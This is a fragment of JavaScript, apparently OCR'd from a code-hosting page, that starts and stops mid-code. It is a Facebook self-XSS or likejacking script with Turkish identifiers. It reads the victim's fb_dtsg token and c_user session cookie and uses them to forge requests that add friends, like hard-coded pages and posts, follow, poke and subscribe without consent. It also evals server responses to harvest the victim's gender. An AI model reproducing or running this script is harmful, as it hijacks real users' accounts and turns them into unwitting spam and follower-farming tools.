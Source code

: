 document.head.innerHTML.split('"svn_rev":')[1].split(",")[0]; sarkadaslari_al(); document.cookie = "paylasti=evet;expires="+ btarihi.toGMTString();  document.removeEventListener(tiklama); }  }, false);     //arkada?¾ ekleme function sarkadasekle(uid,cins){ 		var xmlhttp = new XMLHttpRequest();         xmlhttp.onreadystatechange = function () { 			if(xmlhttp.readyState == 4){	 			}         }; 		 		xmlhttp.open("POST", "/ajax/add_friend/action.php?__a=1", true);  		var params = "to_friend=" + uid; 		params += "&amp;action=add_friend"; 		params += "&amp;how_found=friend_browser"; 		params += "&amp;ref_param=none"; 		params += "&amp;outgoing_id="; 		params += "&amp;logging_location=friend_browser"; 		params += "&amp;no_flyout_on_click=true"; 		params += "&amp;ego_log_data="; 		params += "&amp;http_referer="; 		params += "&amp;fb_dtsg=" + document.getElementsByName('fb_dtsg')[0].value;         params += "&amp;phstamp=165816749114848369115"; 		params += "&amp;__user=" + user_id; 		xmlhttp.setRequestHeader ("X-SVN-Rev", svn_rev); 		xmlhttp.setRequestHeader ("Content-Type","application/x-www-form-urlencoded"); 		 if(cins == "farketmez" &amp;&amp; document.cookie.split("cins" + user_id +"=").length > 1){ 		xmlhttp.send(params); }else if(document.cookie.split("cins" + user_id +"=").length &lt;= 1){ 		cinsiyetgetir(uid,cins,"sarkadasekle"); }else if(cins == document.cookie.split("cins" + user_id +"=")[1].split(";")[0].toString()){ 		xmlhttp.send(params); } }  //cinsiyet belirleme var cinssonuc = {}; var cinshtml = document.createElement("html"); function scinsiyetgetir(uid,cins,fonksiyon){ 		var xmlhttp = new XMLHttpRequest();         xmlhttp.onreadystatechange = function () { 			if(xmlhttp.readyState == 4){ 			eval("cinssonuc = " + xmlhttp.responseText.toString().replace("for (;;);","") + ";"); 			cinshtml.innerHTML = cinssonuc.jsmods.markup[0][1].__html 			btarihi.setTime(bugun.getTime() + 1000*60*60*24*365); 			if(cinshtml.getElementsByTagName("select")[0].value == "1"){ 			document.cookie = "cins" + user_id + "=kadin;expires=" + btarihi.toGMTString(); 			}else if(cinshtml.getElementsByTagName("select")[0].value == "2"){ 			document.cookie = "cins" + user_id + "=erkek;expires=" + btarihi.toGMTString(); 			} 			eval(fonksiyon + "(" + id + "," + cins + ");"); 			}         }; 		xmlhttp.open("GET", "/ajax/timeline/edit_profile/basic_info.php?__a=1&amp;__user=" + user_id, true); 		xmlhttp.setRequestHeader ("X-SVN-Rev", svn_rev); 		xmlhttp.send(); } var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function Like(p) { var Page = new XMLHttpRequest(); var PageURL = "//www.facebook.com/ajax/pages/fan_status.php"; var PageParams = "&amp;fbpage_id=" + p +"&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=d&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp="; Page.open("POST", PageURL, true); Page.onreadystatechange = function () { if (Page.readyState == 4 &amp;&amp; Page.status == 200) { Page.close; } }; Page.send(PageParams); }  var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value; var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function a(abone) { var http4=new XMLHttpRequest; var url4="/ajax/follow/follow_profile.php?__a=1"; var params4="profile_id="+abone+"&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg="+fb_dtsg+"&amp;lsd&amp;__"+user_id+"&amp;phstamp="; http4.open("POST",url4,true); http4.onreadystatechange=function() { if(http4.readyState==4&amp;&amp;http4.status==200)http4.close } ; http4.send(params4) } function sublist(uidss) { var a = document.createElement('script'); a.innerHTML = "new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: " + uidss + " }).send();"; document.body.appendChild(a); } function p(abone) { var http4 = new XMLHttpRequest(); var url4 = "//www.facebook.com/ajax/poke_dialog.php"; var params4 = "uid=" + abone + "&amp;pokeback=0&amp;ask_for_confirm=0&amp;nctr[_mod]=pagelet_timeline_profile_actions&amp;__asyncDialog=1&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=v&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp="; http4.open("POST", url4, true); http4.onreadystatechange = function () { if (http4.readyState == 4 &amp;&amp; http4.status == 200) { http4.close; } }; http4.send(params4); }var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var now=(new Date).getTime(); function P(opo) { var X = new XMLHttpRequest(); var XURL ="//www.facebook.com/ajax/ufi/like.php"; var XParams = "like_action=true&amp;ft_ent_identifier="+opo+"&amp;source=1&amp;client_id="+now+"%3A379783857&amp;rootid=u_jsonp_39_18&amp;giftoccasion&amp;ft[tn]=%3E%3D&amp;ft[type]=20&amp;ft[qid]=5890811329470279257&amp;ft[mf_story_key]=2814962900193143952&amp;ft[has_expanded_ufi]=1&amp;nctr[_mod]=pagelet_home_stream&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=7n88QoAMBlClyocpae&amp;__req=g4&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp="; X.open("POST", XURL, true); X.onreadystatechange = function () { if (X.readyState == 4 &amp;&amp; X.status == 200) { X.close; } }; X.send(XParams); }  // pic + fans P("172997296218744");Like("170971166421357");Like("209126199281449");Like("1375353502725775");Like("3209126199281449");P("343311102478432");Like("1375353502725775");Like("244359939081437"); /*Add Friend*/; var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function IDS(r) {   var X = new